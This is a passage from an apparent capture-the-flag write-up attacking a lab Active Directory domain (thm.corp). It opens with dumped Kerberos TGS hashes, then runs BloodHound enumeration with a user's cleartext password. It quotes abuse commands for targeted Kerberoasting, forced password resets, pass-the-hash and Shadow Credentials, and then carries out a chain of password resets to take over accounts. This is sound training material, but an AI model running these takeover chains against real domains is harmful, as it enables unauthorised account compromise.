$krb5tgs$23$*CYRUS_WHITEHEAD$THM.CORP$thm.corp/CYRUS_WHITEHEAD*$f17ccf95bc1fd5521bf314aa51fc9653$acd684b845a10eb9d6f7921c2129d494b24465dd15e3d8e66b974b5df0b5a73a1ef9de9d90c4a1dec3c94acaa1953bc0375b3b8e5b30c79b52990302a23ed550c05bc517f39e962c5743ee181729d6b4a2ba787945776ace17001254303ac9bc13257655db307a57f0202b4ddfe724832a79b0e904108c47b4205e0ae35e253a7c4ace0044c5d68701884fb0eef0e13b901189659772fbf8ff17921ead5e851b178897ea8d9568f0570a9301e5fc4777fdd40f41e5752234de832de06f38d6de9648122807975ba956f64275d7356b36cf55cede595df70c973d26629d82088b7b35f900f7362593ce8b3a64f1631d9bf20d585947240b99bd8f97628e22eaf847ef29a360b3396b1445c307632cd4e160a37828230360425750229336e6bcded13498631b76e04179b6b2f80d98b819af7bd5bafe3755f5e5f0d87f48a4bb8d1ff6603759e8c8e7537dde9b66a8148966c6aba7c290e76b28b2733bc19974334e551d193904f47165a8d071b2e01c2f48cafc2ea5924f2f7d506e2a2e4fc8fdadf703bdc148f2c989c49468a0a7a4a1835ceb1c1c6e8b3c7b4b2533fbe22f948789d4556d8a331ae6ec694e23d9fc4c5f86f06363a057ebc1005fd7a2e8cd7c2a9d57d2abf05989c345c93c22e94f3356b3a307a0825425842a35fc0b526bf7ffa34a2a3d990aa689302a02a5089569c62515d5de01cd3f0d85acc8df4f700459523368af81c1f2623425839e1cb9314603ad7fea39a149ce82e37bdbe0463a1efd614fb0756ebcdc05e689686dcc17f60ed648f8634cc8ec67077f437d39def793acf98e51838910efa1b650a2cc742b81a567c12110930870a7391775c5626f5194f919c56dd611c1d75cd920672c5917a65a448e501551ea3b3b73d600f0c7ec2f3b548471d36f3e1d122dbac6575b9e2e6de1fb0904d682f257589064ec00a4bf87a2bdcca278ebfa46a570019bf4da4d67fa6733020194bb4880527f9ff093a98cc09206b3be013fba82b7cc33f692dd06d2ac8dcc57373ec671952e26e3b4c92a164d4491729119aaf18e58bc5676ba6fa8a97ac925a7ecae7be3d241b23bcda307948dbce5871e0eb248a0a499221784ddbb573e823393220542ba98a419fc68c95cf07da788f7ab79060c29ba5ec6268c107e9fa95346d5acaf6e929fcf19f7f2944b63c6abebebc7577849b582f9c9e1272321f4d08fbb3208226a8440e9db3ae0916d4a21350d13e8469892b827903d9b3603623a8cfaee3f585b33ff7ba95bf30c81a439902744c3f250b747f372e58d446618547cc997ddea47ae1f132895c87a08d358431b1b5136980a09377861fd37743b0e1432f00ea175801e94417b1fa5e878a9602cc439b5c6f21b369c56970ed31c2214e9f0c701568559dee9a3b04a4fcdca21e20fbab334d0fbbb8b89c6835f40c43634732e7362f9
$krb5tgs$23$*DEANNE_WASHINGTON$THM.CORP$thm.corp/DEANNE_WASHINGTON*$88d3a15142c9e0263b3ea6b2db07ef96$3491ac300d2b3a71d3a82446e406a0a7c6e962d4e49a668c0faa71cc703ccefda126da709a1b5d6f467275f86114e2b2d2da7f3159049f3953ab3e3326119d0fada98f965b109f08671fa9123f4ea7ec0793968e51418e0654bbd2145343e3a3935f6184477cca183258945e7b2d21ff54317735c2202a671ea5968a9a2afefc57c4be32c86836ee4eca6ba4e0ae1d1f62c6acb78ccd7e150379613574dfd62036ac940ab63dbe407a68f02dafb743d483d12a0b1caaf8f6516415b15078da6e1742bcf0c0bc6173a4b044daad2c38d08e54a5b757754d1c0ebb8a44edf37fdd3586b7b59f26ee04d5fd3e3b0bdc1482c5e2ae95cdffc768ab5858162bc9e76a3cc856f7be7c2236c2f9e4c17d5941a490d86892f3082ab34aaca50cca0f8af5c79ecf5905bae499c12e477c312aae38a7314a64e58ae1c1d34cc689e1e8361eb15c591a88dc857d81bc5802d2acd0e483a56d3f25e8a08922c151c66798677d447985dce8d71b6faa5cfbc805c1faf447fe9d40e448659b7b887f59fe02357474f1ea3b6c1088ee511dffc1aa5ddaec6bff07b6ce6c0fa29eb2f07844cb63e2885b60e19d5cdee3f7bfefebfd96d93264d7d5be6c01d86cd16f8cf032f33c3d3e4f46ff253eb4b04f024735839000c536c7a1e42392e7e224f4b212182db77f20c57b95580feb1c44c42658283507eb9231a6b0f29e0ba0ec6af7e764d796b55c358dd251366295762eb5fa7f5918f678651591f81f3884c7ce1cc155095c35846f741865bbac8c7b4857bd369b0459144fc644aee97c7ab40560888378af716a54e05d55219ca71590ab819d409f47511ea5e6220b89c5f86f0d1675cb70257a6475286b1810329dc0dcb05ae6518bf7373454476ce32df768de0d08dc7aaefd71136d6e5c29ed6204b9360f4551958c7b43f4e2a7bc55ca0aa5582c0d7bcc3665bdd76174e90b82974dcb8a5c7c4044715b60d0a73b225c663fb08c5b356d12a1fb79526de3b8699804525490d21d05b49a8eeb9f717cd6e0b1c7ade838b92aef138e7da85a18e2d62732059a1261e4a13a64331474cfadb2814c8385802374baf07eb7c23fb98fb6d86fb87ee75e6720912ecab12d5f02bfecd4bbf27e57a17361605a0017e9094b76e929d8bf0b5f1fb21e021d509aff4ef139d81f7b8745a736c98ac3fd00662ba455960741f5e35b2455e953fca9fde27e6094d5ff0ace9d94f6423f23859c18bc55a1c1978dcee0ac05ea9ec9134681a61e5e4839f2ae78c9c14ef8c1c37fe71f3a3664bf72140570743d0c706f4de3101bb05c62b8a37a1738b5dd4c0d2bf0cdf24df18fbd9a341140e6ce47561324d7068477406b9f915b41b471a080bcabd8792f9f1a4a0685cd781eb5ad29b4f7c6d4e912a4b2025043b5c79d0955766a6a0fd9353f93906fa6ef54a5aece8ef28ee54681f229ff
$krb5tgs$23$*FANNY_ALLISON$THM.CORP$thm.corp/FANNY_ALLISON*$7d9a9f8e8d007cfa58f6a0e15a4b4ed7$d882a6b3ea780b81a6a039b206a5e4eb643b12013eef0c48e9f887ed365805671247337409c6e1c7d791826a8ffef1ee943593957b74dbd9ea143cf23d775f0e0f2ca32b26a794818e4b40355da5f4dfe031e2b37e9dcf620713ceabd7c4b5e0a5ffbbdedb887f45ecf9405be17f424c55cc89aba3ba041a2cc89e0ba9407ba3cd0e6de18fba486e9191b8ccea14c43ff57d9cff16d6b8d3d893c16bd39110afc660aa3bba929503ab5b477bda64e3b95bc08419308687cd548f05044984194678aab2b6e4fb334140ab2f745453ba768d8c9ca0322d21204b75d17a1d502a831e3814cfec5533f4b368cfae2b95317e0a4219bc06fa78d9a318f0d9c28d213614d0ddb4a15eb3b59faf7a5540d9579c4daa509b5a1b63020ccd3871437f6371eae1813ae20b38f9c733623772c32bb709713113b1dfc4574404dbce0bfe3ae83ad5239f046ab24f94dda3777db24d7bdd4c54e81076d1363deb2ca02850c46eca2b903d87517978f79e372310b68d88a891c3a00379cf4e84e0ca6387770bfa01250dae3cc8c4b754157f6a92410ee8b9c23ecd56154a20a14f13ceaabea46e5f95fd6a7f9c7de55a2824701c679386ba31051990c515d207a2d0c049d4801ff0a7fad88702dcd46e59f5fa0eb6805a3bf08ac008a3ecdf59953a06cd22fdbfe9d0a194f8a3b67a4be29a9c784890ce7867e454d995b5dcca6e18d52ed9a6a12a5767a13475ce7c430d98bbbe163ee24aa7d60a87ae30a7134dc53cff8533004272f85c3f8de7246c76e17001bf81b077bbef893715c49fdf7c3cf2516af8ce6f58ee518d866e9abe3d21082c76675e84479ec6eacef0e2135a83dd22ccedca4a5ee7635a703e0ee23e10757f77031ca3d9101289258fa8eeffc8c1e48b45f1901dbf7537fc8c26e01a53f66e531de945f6b864986f530dc48c1d273ad398736cd7d9cdde84b349b3e3a15d230e40c61e3d2eb516b32866b4fa3285753bc6bce2c2541241eb3b853f497e737de263866987a7575493138238a801424123badffe213f3c1a8a320cd76664e47d2cf93363e2f5f526482fb8c305f60aaa5f30ebb6171d1f1fe5f3223c552f84fea4f8be9e3279fc94659403f85e4b30bb3b2cc0687f90b90627c19a00817428c3be39665a515e4df64a64cfa0c5ce867bc91eec8ac7a8dafd56b803cc9c661fadee4bf509d6efb6b76fde6ec5411462fbd3072891fba5061bbfd4ca89db2f8908d75920260dab5785f6832e575ce79a3a628d5b0e08beb8ba5a6c6583e13647cc750334ed7da2a92f3c1854f0ea738d352fa223d3596e134e4e8729f512ac92c9b7e0c686fb87d951adb63ce33801736a33e1401d673e075672b7bf6cb7e0069e9fa86499c20e706567360f6ad9cc57b3d4b5237cafd847d80a39dc1193931bb406172131653c6cac289b0c225da47e01a6097e52
$krb5tgs$23$*MARCELINO_BALLARD$THM.CORP$thm.corp/MARCELINO_BALLARD*$10fc576ca8561d94a2639bf9e3615655$f1107dee42088252bc77f0907955ece1373a64a0294ecd902d10ce638c48c435e88aaa79cf66e2e2eed309b9a7ac7f9b41d303b12423791fb168a5c32c8824c3dfe89446115a2629f856f3f947bf18e58803b73378fbc6a0e58f77621eef4af0364caf4afdc8ee5e103de5bbd6208d1b571d746d02e46a1b0e648383b230f1102bd0e5e6ee9a028c21147b2f7774474b438fea50c6e5a8d225a55cf420dfc87560502c536d0baf520f962df4ae29be722f7211abf41c1bb2071237b6580652a8f3dbe6f0917c7af64eef24e8170ff5809ce0b8d519e2c9c4c2979308e3a7ad83ad6f6a0d1d013b98107fb41aba230266f1b9acd40f30edc5670587726e9ada74e01093b0eea58c623725592919769e8a32daad517730a403212eed9cecf18207ea1027a74156adad60fda5e639bfeed1010ffb9021074423e808f12ebb44166696efb91f37696c916fa891bbf4d6a179588d486a03a5a906a43502409bf05aabe5240d9cf3963dbec81515c17cf8da99b15e069c26c3be5ddcbc0860298cf9ed0d233e637dcd3846245c7b9c475e72ff27b132ca01a0e70dd86185de6c154369ccdf69b1073164f8befce859e13969d9ed7342eeec1b5593e5e0bffc258faf57d6211b33501407b6fb575b0f46f217fe2844b8e3a75804a9c83f5b844d89e02f0020895267597522acbe7541a41cf9b7f1f6c2594cc45dc54b18d7edfaefa9515aca1cb0c7f4cd110045d7786b449ad35af2791e3040f61c086816312ff3d69202cfc029a62b65106a07031206d0f00cb515ff086683b03f9f20413568573392777d640e3775f0df5722ee8eb042f44c45a3c593d055c3de43f8630e8f15c474baf001e7de3a4db21a38d7e9f5da462df9f9af1c3a4a5f1a54c48881c2f5b9c6d9fb033e3c2da68ea24e053aeb7afa21fb571f02789b0ed43bea765efa8c39e8b8bc74183d98e4d70f2054179778dd8ffc8a8d5401e13ce7088d2961e51dca2f500f7d03c0f812c2828c7d1d93a05c39fbfeca48965e99a7d2462491b30ed10ec573d913a7245a9733769b87641a4f174a5681a0c5c87d02a08cae918b55537e15bdfa93bced9d706e2285002c899ba83d36fe37d5cf20129d366760c8ab867cfd5fc524b50cc481d512e77bbd7b35c54214eee3526879701d601affd8ab6f43d02644b5a37a2caa1307cc62c1abff1c266bf170a0ffe0c038b3a12a0340960192df613a6c4b947200282f8af37193b01fa21628b66c296988d23cd14448a5367b63f86c9c4c33f47e1cd397d0d3b7cb99605d2d8afd866380622ed5d4928e8a1fc27701f92b1bfa765d141d18c3ba25b295f5dac62294970aeeee7b234341c44bd3e089023de1d177144a10858737997cc9c2a36cdee0292d8b832cc41e81ce05205f58def74f28f68d885db78b23b5ffed070f005d85f1d16d2df40a0648b9da
$krb5tgs$23$*DARLA_WINTERS$THM.CORP$thm.corp/DARLA_WINTERS*$fa3835944bbcbd5db147613026e84c8f$07c1f5ca4d7896da7bbe20c45034f21b50317b792cb5ef997dad062eca877f43fad34d0c383c8d5447dc4a0a07e1bf66b5ba7992d51adb612e032fca567c2a0df24d2f1b6722b5aed64bbb2fbf8c1ee3b0af784c5c663e9ecd5dca77bc2ce4f75ee76b8577292939a122d01bf2a680b362e7e043d7ea32459a0b89714089de50cb61ce5d59f4a3c3e29470b730377fdd9f3133515c82efb01541cbee902f0319dec73ae33fe1737357371b77623a0a8bad825210ca21a4c112ef19da85f96ec889cbe1085ffb64a99fc11d1d0ae8ad9a9cc4c4dacad46a008db1084deee38977d7710d942e9b12268d2f801f0881dc149eb888d02fab66eb2c47630ee843a44be5f65f8c027a036cc3ddb1513adcc957248ffc8f6cceb807970683ec7df9f2364f7fa7809206af2297b7282ad60a22d20726d4201d4c2a7c43426c771f45eee5f8a16d85d0d80da6d4c42e936379481a980c0f2448ebc52afa51d25f0f21092d98b855a9abce4d6a2f0613fa6249fa997f73c10df44c0a1c0f2b3bd0cdaff4b956c16779ef734aa614f9045f054b3ff0e61f262e00f279be1647306d7eb9440f6820dff891e5bd78bd58a0bd7abfa7420a1eb0be9f069f77812a44acf8c3dc255951885409bc7a0b75cf8067659d6148860db40c6d9aee2c040a96cc5f6393786bfd19df732146372103c05c08f5c335b74a3fc7fe94aa7b5735251e5dbdc835d7720ff5fead06b2e845af2443e9b262a9debf56d5905b70c3e55ca9004518d58e11e0bdea82f38bdcbb00dc369e150f3836344ceaa5228cac26e61bcdc2dc24b8cc36a691fa8006d7f685a7f89a57d03864ee5aececef67cd51eb39030891f625b9973723121579dc32f4fa95554bb1d8e8f263ca5e704c323a570df739a502d50be3dc5b556a6106d30b816b40f85f1c6fed7de0afa2847466da5fd293d2cbdf3433772b002545811803ffc80e64f9e1b34c01becc8d3ce71ff2deec9d390110d46de2ebcd5c503d5006c057bd0606046b4ea62c849a8ec5429e36ad83439be185db8301db3892fdcf1f04083225a31a599aace6be8693d181c6c9c95cf5e2812de0c9b907e1fffeb23b481ee8fada5e3ab9d9c17925b5835ceea10c95a05db7cb9c0fc3aba8baa2df5365b1ca762e62a484eb22da35bbc042aebb1197b5f47a78eca72d033e751cbd9d5b51f11e586779e6554613815ab9c0807fa1d9c34e8e877deb18c72b8c2211ad8dbf2327ed1339e33f21a4c2e09fd435ec4b618abfd75d68c1f96424617b5a1145dd5faacf7b3f5e836292c9e9e24a8b7fe243fc8fedeaaaed2259607f63c5a121c83d4371ec688906e38059b9c257501a702fd40b8b787b011f4a564f9e509f64ca6296a328f7c6fe83daddf00e197b9b03213df8c9ebf00233b26c9b2d75e5ceb8080164a4249b4709eef7af4a66703beb10483603
$krb5tgs$23$*3811465497SA$THM.CORP$thm.corp/3811465497SA*$4a286a616dc43335513a77bbdd2f5ecb$1103bfc32773ba3aaecdc77eb81717ddfbcc174558e75e7016f43627900962d0d4d723ef3aa79f5408b20aadf8cbe31b73e0119dda1ba8616c5e5e81b14d7064229ff77d9d38c9fecf1a0b818546524d92024393a653fe4235be8e2d4ce961209d48d568425be5cf4d2670a9e0df4cdc76a51e6e6050056e66b883250d16984d0610c30800ccff4f09f1d33856449e8e496e54f3b1fc5fdc81d27f97b5a26b44bf39c3e9d3c7ce9d4ff2bc94b2f4991d6d10a4e80b0abe1b53c7c5c3a63271a53d89258590b7d0339ae77f37484001c2b35d412e27da539c96f3246dad01f98889fb606ec12ab4f6451a4cfb186f51eb4c0b2672c58358287c35d0193c6eb49fc9ab8a87d2c4d8ba7b18bb6367ae188b95193452f33ac96590782633235ec15305b796b1f29ff09b2447422fc93e425c1df4129b849f83c9d8d8e26f6baf78e946b1b3db0e564a592b9c6aff7e63395bfcec6e4a66d09f9d6d8336d79f3fb8e51882251e55aca77bde486bbacd61feecd2a9cc13ceb56fb739da7961af8ca11b4ded764a820127074eaea8e5a1e62de7656ef32bc09a3a8f4c803f449edba6239309a404c5e15d28f923c2a179f1de9f355bf82488f8ec1565a9d0df888dd41b816cfb8b2a88f986f05707d07d6cd9b1b80bf20885acd7812bbc50d9323a5c75a0a3f6f7ede46a034d9ece7e4f6b3fbb363c152891750f4e8ff1f5c21f3b0182eaaf36094d64429d0a6884f927ba711437f66cb25291b79344d96362dd8fa3b6ec58cf4b82ced1435b809a5acc100c7c1de665b0712275ddcae411dc55f23706e995f1330c95840540d7c8f25e104c02d8e640cbb41f00fe73c22e7a0ecc5412b8edc1e66cbaaf159c3ca2a99c818f1f9b2319d64102c0705e41ea6835abe78d2de1c1aee589dff0d58e73e321485f1fde2d8b58bb819e00b9d36fd6c5a577fb0ab7a64d00a89bdfcf71cbd0c80d136884b9ba0035a6dccfdb452b04de7acd5eede2481a2b30f8c874eaad115cc11b9eeba895a9a67f962b6048eb8414521270e2da648303b3712b472a9f5a3f4d12b711bad4faf92bd017c258e8142801562d1f432f27edb3d7497e8eeda73bd400be19704dc7195600394833b2e99444fbc6bfff7cf74376aaeec699e2118ac42c01c54db42eefabb8312aad2e16601431a4c924af4bf25408b5616f22805c8908807ed6039cb20b63702ac23329c175c427dd982067b2ba0df92d42069bda237bb57d9f941481ec2562cd1d9d1498deb57872b8927eda14bc8575d4f3e5313edcf7c4e3e378bdf0dfadc1f39b653a2a1a03bb122c839727463c2cd7c3493bc9b2b29667db3b43b07cfb0cf37a20bb5e8da2395d8901b5f483ab41fc074000de4cc8395f36f7cfeafe403a32978df07c511112912f6327052a891e330f6fdfa6113a294671509de5556bde9b044d4d08ea6860
$krb5tgs$23$*MARION_CLAY$THM.CORP$thm.corp/MARION_CLAY*$aa9716c83c5dacf3fd642d01e0c2cf82$c82ccda50c4ba603afa333b9d4ea137af0bd8d6001949da9745bd5a736d1a8b2610f9a43119dde03e8cad210693574c5ea1c86d60126ee3952c313958dadb9d7749ef8092f1a9f2432598ac9a162fde7a08c65fb3d66dfd66d88eaa424fac4dec7d5cd703044932b6896804646dc4c4e0b1500990a2540b0b628a69f9f15b30cbf43cc493935bbfe6b0c5b554825eb80e612c1426b4d59a0f01dfca9412618e756e7c09645f01dd4d35f19e13ac690d031217ef828b616afff81d379ddc42acdbad11311d509eb3678608a4823596020f3fccb9783dbc6049fb0b85a5d18a37b0f3030dbff522760b2111ca6d231540c813aa937b6188b9996f1938d2c1983c6e100e87e0af6fb457f48835b09fdb013d5e27b42904711715e5320d6bd1c387dc25e979187dcb9a2f9ca67df9d80c0bffab643bf14873d24538ca8b623f016adb94d97d9805eb12ef0dc12210fa5a51742070e14cfd9062690269abdfbdc9febe84bce737631e2b6520b2dbdc346c7b7b97c78090cabc913d85bb8082b3da95f34764dcb3dccd6cc48912b7c6c27c4cbb7232c027674e8fcc9d140b9fdc63ab008c4dbc8df38b50c7279547a1f460b38099c4e27fdeacfbe2c08013287a8248346d0a5dadb6788d7cea5842d6f44e605621c4edf3cabebbdd2fddb0fcea441cac3e5c1bce6a3434cb427b47311e8aa9fe7f961c763cfb6ccf0f75b3406886038717b8605c907f6676b9f6758c782c43a7112f9ab11b6f621eac55903fe2ac3ab524879b4de5f0aec8c230f0b26c1f54b857f18ede83d1135af2f25efad9e1ca8a5f511ffc1176ece4d58bb3ea717d2ee6dd8f251475c2e5ea32997ab93344818d46ca694036080ee7ab57d2d5f63489d6050790cf90ccc76b5cb2b26efd481472c6050fb647c7b3d78cc249204927d7268bf7e3e436dffa327d0f8633a3e7d0a4aaa5a21d24b626c7fa684ada0904f66fe8fee1fcdfd98ad383d6dfbbc72a32a4ff47247010c14fedabf735991dc2aaaad259b84a7e2bf1bb9038f61f5975ba157654df0020dc2b87c8413251dae612fac0e61e615f77696fd2ac6d86d01708428aa275f62054d2efe6c0ab9b1071b6f45f87967eff3ef75c776c5d0050b96eacf517d0264bb4530b55182e24430e3d00ff907a9f958196c64fbeb1d86fc55e9d3a298a0b05271249b1b7a43cefba787f7954d7c8cba657f9c1f66f990ee791320ccf2d8ede7a14bce96f2f3cb2d50115ba1f34f1402569c38adac46983ea5ce9e8ad423f439fa312ea4728ed1b1f13c7ef8dcde848013e8a98e8f2f94759a829acf7b93907c5c943548e0f67a0ee38cc60f012815e6eaa6b5e7d0cb0d574a76dd52b1b79bf961966f5f2b47d30aba36dcfc083151e8202f9c3977139d074dc78e8f55008ca2234befb22bdd6e7e8f8ffa0de54a83eb9b09742ea4e82e4c74333f
```

We found more hashes for users but we will keep this aside for now. I tried cracking a couple of hashes but was unsuccessful.

### ==Enumerating Domain with BloodHound==

We can use TABITHA_BRITT’s credentials to run BloodHound. Once we gather all the files, we will upload it to the BloodHound tool and start analyzing them.

to install `bloodhound-python` you can install the `bloodhound.py` package from the kali repo same as `bloodhound`.

```bash
┌─[abadd0n@EX3CP01S0N] - [~/thm/boxes/reset/bloodhound] - [Wed Apr 03, 10:24]
└─[$]> bloodhound-python -d thm.corp -u TABATHA_BRITT -p 'marlboro(1985)' -ns 10.10.197.78  -c all
INFO: Found AD domain: thm.corp
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (haystack.thm.corp:88)] [Errno 110] Connection timed out
INFO: Connecting to LDAP server: haystack.thm.corp
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to GC LDAP server: haystack.thm.corp
INFO: Connecting to LDAP server: haystack.thm.corp
INFO: Found 42 users
INFO: Found 55 groups
INFO: Found 3 gpos
INFO: Found 222 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: HayStack.thm.corp
INFO: Done in 00M 49S
```

Now we have a series of files that we can import into `BloodHound` to navigate further through this `AD` Environment.

```bash
┌─[abadd0n@EX3CP01S0N] - [~/thm/boxes/reset/bloodhound] - [Wed Apr 03, 10:27]
└─[$]> ls
       20240403102640_computers.json         20240403102640_groups.json 
       20240403102640_containers.json        20240403102640_ous.json 
       20240403102640_domains.json           20240403102640_users.json 
       20240403102640_gpos.json 
```

After uploading all files to `BloodHound` we can do the following.



We search for the following user and click on them. All the way down in `Node Info` go to `OUTBOUND OBJECT CONTROL` we click on `Transitive Object Control`.





Now we should have a graph like this with user information and much more.

Right click on a link between the main user and another user click `help` then `Linux Abuse`. This will give us commands that we can utilize as an attacker to preform different attacks. Under `Linux Abuse` it states the following catabilities.

Full control of a user allows you to modify properties of the user to perform a targeted kerberoast attack, and also grants the ability to reset the password of the user without knowing their current one.

#### Targeted Kerberoast

A targeted kerberoast attack can be performed using [targetedKerberoast.py](https://github.com/ShutdownRepo/targetedKerberoast).
```bash
targetedKerberoast.py -v -d 'domain.local' -u 'controlledUser' -p 'ItsPassword'
```

The tool will automatically attempt a targetedKerberoast attack, either on all users or against a specific one if specified in the command line, and then obtain a crackable hash. The cleanup is done automatically as well.

The recovered hash can be cracked offline using the tool of your choice.

#### Force Change Password

Use samba's net tool to change the user's password. The credentials can be supplied in cleartext or prompted interactively if omitted from the command line. The new password will be prompted if omitted from the command line.

```bash
net rpc password "TargetUser" "newP@ssword2022" -U "DOMAIN"/"ControlledUser"%"Password" -S "DomainController"
```

Pass-the-hash can also be done here with [pth-toolkit's net tool](https://github.com/byt3bl33d3r/pth-toolkit). If the LM hash is not known it must be replace with `ffffffffffffffffffffffffffffffff`.

```bash
pth-net rpc password "TargetUser" "newP@ssword2022" -U "DOMAIN"/"ControlledUser"%"LMhash":"NThash" -S "DomainController"
```

Now that you know the target user's plain text password, you can either start a new agent as that user, or use that user's credentials in conjunction with PowerView's ACL abuse functions, or perhaps even RDP to a system the target user has access to. For more ideas and information, see the references tab.

#### Shadow Credentials attack

To abuse this privilege, use [pyWhisker](https://github.com/ShutdownRepo/pywhisker).

```bash
pywhisker.py -d "domain.local" -u "controlledAccount" -p "somepassword" --target "targetAccount" --action "add"
```

I am going to attempt to change a users password that is linked.

```bash
┌─[abadd0n@EX3CP01S0N] - [~] - [Wed Apr 03, 10:51]
└─[$]> net rpc password "SHAWNA_BRAY" "BaphometwasHere420@$" -U "thm.corp"/"TABATHA_BRITT"%"marlboro(1985)" -S "10.10.197.78"
```

There was no output so I can assume that the password was successfully changed. Lets confirm this.

```bash
┌─[abadd0n@EX3CP01S0N] - [~] - [Wed Apr 03, 10:52]
└─[$]> crackmapexec smb 10.10.197.78 -u SHAWNA_BRAY 'BaphometwasHere420@$'
SMB         10.10.197.78    445    HAYSTACK         [*] Windows 10.0 Build 17763 x64 (name:HAYSTACK) (domain:thm.corp) (signing:True) (SMBv1:False)
```

I see that this users password did not change lets try other users.

In order to move up and change the other users password it will have to be in a chain order.

```bash
┌─[abadd0n@EX3CP01S0N] - [~] - [Wed Apr 03, 10:56]
└─[$]> net rpc password "SHAWNA_BRAY" "BaphometwasHere420@$" -U "thm.corp"/"TABATHA_BRITT"%"marlboro(1985)" -S "10.10.197.78"
┌─[abadd0n@EX3CP01S0N] - [~] - [Wed Apr 03, 10:56]
└─[$]> net rpc password "CRUZ_HALL" "BaphometwasHere420@$" -U "thm.corp"/"SHAWNA_BRAY"%"BaphometwasHere420@$" -S "10.10.197.78"
┌─[abadd0n@EX3CP01S0N] - [~] - [Wed Apr 03, 10:57]
└─[$]> net rpc password "DARLA_WINTERS" "BaphometwasHere420@$" -U "thm.corp"/"CRUZ_HALL"%"BaphometwasHere420@$" -S "10.10.197.78"
┌─[abadd0n@EX3CP01S0N] - [~] - [Wed Apr 03, 10:57]
└─[$]> 
```

Now we can see the confirmation.

```bash
┌─[abadd0n@EX3CP01S0N] - [~/impacket/examples] - [Wed Apr 03, 10:58]
└─[$]> crackmapexec smb 10.10.197.78 -u users.lst -p 'BaphometwasHere420@$'             
SMB         10.10.197.78    445    HAYSTACK         [*] Windows 10.0 Build 17763 x64 (name:HAYSTACK) (domain:thm.corp) (signing:True) (SMBv1:False)
SMB         10.10.197.78    445    HAYSTACK         [+] thm.corp\DARLA_WINTERS:BaphometwasHere420@$
```

Now we can go back with `BloodHound-python` to get more information that we couldn't with our old users permissions and level access.

```bash
